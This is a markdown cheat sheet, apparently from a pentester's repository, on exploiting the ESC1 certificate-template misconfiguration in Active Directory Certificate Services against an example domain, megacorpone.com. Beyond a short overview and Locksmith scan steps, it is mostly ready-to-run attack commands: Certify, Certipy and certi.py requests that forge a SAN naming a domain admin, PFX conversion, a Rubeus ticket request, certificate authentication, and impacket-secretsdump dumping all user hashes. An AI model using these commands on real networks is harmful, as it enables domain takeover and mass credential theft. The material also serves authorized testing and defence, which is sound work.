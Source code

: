 # General Overview: 

A certificate template with the ESC1 vulnerability allows low-privileged users to enroll and request certificates on behalf of any domain object they specify. This means that any user with enrollment rights can request a certificate for a high-privilege account, such as a domain administrator.

To exploit ESC1, the certificate template must meet specific criteria:

- **Enrollment Rights**: The user’s group must have enrollment rights, allowing them to request a new certificate from the Certificate Authority (CA).
- **Extended Key Usage: Client Authentication**: The template must support client authentication, enabling the generated certificate to authenticate to domain computers.
- **Enrollee Supplies Subject**: This option must be set to True, allowing the user to supply the SAN (Subject Alternative Name).
- **No Manager Approval Required**: The certificate request should be auto-approved without needing manager approval.

# Abusing ESC1 Certificates

## PowerShell:
- `Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2) (pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=megacorpone,DC=com'`

## Locksmith: 
- Source: https://github.com/TrimarcJake/Locksmith
1.  `Import-Module ./Locksmith.psd1`
2.  `Invoke-Locksmith -Scan All`
3. `Invoke-Locksmith -Scans ESC1`
4. `Invoke-Locksmith -Scans ESC1,ESC2,ESC8`

## Certify:
- `Certify.exe request /ca:ca.megacorponeone.com\domain-DC-CA /template:VulnTemplate /altname:'domain admin'`

## Certipy:

Specify a user account in the SAN:
User Account: 
- `certipy-ad req -u "afsimmons@megacorpone.com" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -upn 'xadmin'
- `certipy-ad req -u "afsimmons@megacorpone.com" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -upn 'xadmin@megacorpone.com -dns dc.megacorpone.com'
Computer Account: 
- `certipy-ad req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -dns 'dc.megacorpone.com'
## Certi
- `python certi.py 'megacorpone.com/afsimmons@dc01.megacorpone.com' megacorpone-DC01-CA -k -n --alt-name spawn --template UserSAN`
`
# Converting the vulnerable ESC1 template:

## OpenSSL

`openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx`

## Rubeus: 

`Rubeus.exe asktgt /user:xadmin /certificate:C:\Temp\cert.pfx`

# Abusing our vulnerable template: 

## certipy
Authenticating with certipy:
- ` certipy-ad auth -pfx vulnerable.pfx -dc-ip 172.21.0.0`
Using secretdumps to dump all user hashes with the extracted hash from certipy:
- impacket-secretsdump 'megacorpone.com/DC1@172.21.0.0' -hashes 'aad3c435b514a4eeaad3b935b51304fe:c46b9e588fa0d112de6f59fd6d58eae3'



Reference: 
 - https://redfoxsec.com/blog/exploiting-misconfigured-active-directory-certificate-template-esc1/
 - https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/